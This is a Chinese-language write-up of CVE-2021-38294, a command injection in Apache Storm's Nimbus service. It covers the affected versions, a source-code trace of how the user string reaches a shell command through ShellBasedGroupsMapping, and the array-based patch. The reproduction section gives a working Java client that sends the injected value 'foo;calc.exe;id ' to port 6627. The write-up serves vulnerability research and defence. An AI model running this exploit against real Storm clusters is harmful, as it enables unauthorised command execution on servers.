



- [CVE-2021-38294 ApacheStorm 命令注入漏洞](#cve-2021-38294-apachestorm-命令注入漏洞)
  - [影响版本](#影响版本)
  - [环境搭建](#环境搭建)
  - [原理分析](#原理分析)
    - [getTopologyHistory](#gettopologyhistory)
    - [getUnixGroups](#getunixgroups)
  - [漏洞复现](#漏洞复现)
  - [补丁](#补丁)
# CVE-2021-38294 ApacheStorm 命令注入漏洞
## 影响版本
1.x\~1.2.3,2.0.0 \~ 2.2.0    
## 环境搭建
参考CVE-2021-40865
## 原理分析
### getTopologyHistory 
Nimbus主节点在6627端口监听，并开放了一些服务接口，其中一个为`getTopologyHistory`获取用户拓扑历史，其接受一个String类型参数来获取该user的`TopologyHistory`。

在`                if (user == null || isAdmin
                    || isUserPartOf(user, groups)
                    || isUserPartOf(user, adminGroups)
                    || topoLogUsers.contains(user)) `这个if分支中`user`参数被传入`isUserPartOf()`方法中,来判断该用户的所属。
### getUnixGroups
在`isUserPartOf(user)`中进入`userGroups(user)`中。
```java
    private boolean isUserPartOf(String user, Collection<String> groupsToCheck) throws IOException {
        Set<String> userGroups = new HashSet<>(userGroups(user));
```
然后通过`roupMapper.getGroups(user)`来获取该用户的用户组
```java
    private Set<String> userGroups(String user) throws IOException {
        if (user == null || user.isEmpty()) {
            return Collections.emptySet();
        }
        return groupMapper.getGroups(user);
    }
```
而`groupMapper`默认为`ShellBasedGroupsMapping`。
在`ShellBasedGroupsMapping#getGroups`中通过`getUnixGroups`来获取该用户所属组。
```java
    public Set<String> getGroups(String user) throws IOException {
        synchronized (this) {
            rotateIfNeeded();
            if (cachedGroups.containsKey(user)) {
                return cachedGroups.get(user);
            }
        }
        Set<String> groups = getUnixGroups(user);
```
在其中使用`shellCommandRunner.execCommand`执行系统命令,而参数则是使用`getGroupsForUserCommand`根据user来得到要执行的命令字符串。
```java
    private Set<String> getUnixGroups(final String user) throws IOException {
        String result;
        try {
            result = shellCommandRunner.execCommand(ShellUtils.getGroupsForUserCommand(user));
```
在`getGroupsForUserCommand`中直接把user参数拼接到了命令中造成了命令注入。

## 漏洞复现
```java
import org.apache.storm.utils.NimbusClient;
import java.util.ArrayList;
import java.util.HashMap;
import java.util.List;

public class CVE_2021_38294 {

    public static void main(String[] args) {
        try {
            HashMap config = new HashMap();
            List<String> seeds = new ArrayList<String>();
            seeds.add("localhost");
            config.put("storm.thrift.transport", "org.apache.storm.security.auth.SimpleTransportPlugin");
            config.put("storm.thrift.socket.timeout.ms", 60000);
            config.put("nimbus.seeds", seeds);
            config.put("storm.nimbus.retry.times", 5);
            config.put("storm.nimbus.retry.interval.millis", 2000);
            config.put("storm.nimbus.retry.intervalceiling.millis", 60000);
            config.put("nimbus.thrift.port", 6627);
            config.put("nimbus.thrift.max_buffer_size", 1048576);
            config.put("nimbus.thrift.threads", 64);
            NimbusClient nimbusClient = new NimbusClient(config, "172.27.93.132", 6627);
            // send attack
            nimbusClient.getClient().getTopologyHistory("foo;calc.exe;id ");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

## 补丁
从字符串拼接改成了用数组的方式传入,这样user只会作为id的参数执行而不会作为命令执行。
